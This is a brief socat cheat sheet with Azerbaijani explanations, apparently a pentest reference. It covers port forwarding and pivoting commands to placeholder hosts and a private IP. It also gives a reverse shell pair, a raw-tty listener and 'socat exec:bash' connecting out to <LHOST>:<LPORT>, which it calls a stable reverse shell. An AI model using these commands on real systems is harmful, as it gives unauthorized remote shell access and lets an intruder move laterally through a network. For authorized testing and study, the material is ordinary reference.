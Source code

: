 # Socat


```bash
socat TCP-LISTEN:<LPORT>,fork TCP:<RHOST>:<RPORT>
```
**İzah:** Lokal portda (`<LPORT>`) dinləyir və gələn bağlantıları uzaqdakı hostun (`<RHOST>`) portuna (`<RPORT>`) yönləndirir. `fork` parametri hər bağlantı üçün ayrıca proses yaradır. Bu, **port forwarding/proxy** üçün istifadə olunur.

---

```bash
socat file:`tty`,raw,echo=0 tcp-listen:<LPORT>
```
**İzah:** Terminalı TCP üzərindən gələn bağlantıya bağlayır. `raw,echo=0` parametrləri input-u “xam” rejimdə alır, terminalda yazılanlar görünmür. Bu, **stabil reverse shell** üçün istifadə olunur.

---

```bash
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:<LHOST>:<LPORT>
```
**İzah:** Gələn TCP bağlantısı ilə **interaktiv bash shell** işə salır.

```bash
socat tcp-listen:5986,reuseaddr,fork tcp:<RHOST>:9002
```
**İzah:** Lokal port 5986-da dinləyir və bütün bağlantıları `<RHOST>:9002` ünvanına yönləndirir. `reuseaddr` parametri portun təkrar istifadəsinə imkan verir.

---

```bash
socat tcp-listen:9002,reuseaddr,fork tcp:192.168.122.228:5968 &
```
**İzah:** 9002 portunda dinləyir, hər gələn bağlantını `192.168.122.228:5968` ünvanına yönləndirir və prosesi arxa planda (`&`) işləməyə qoyur.
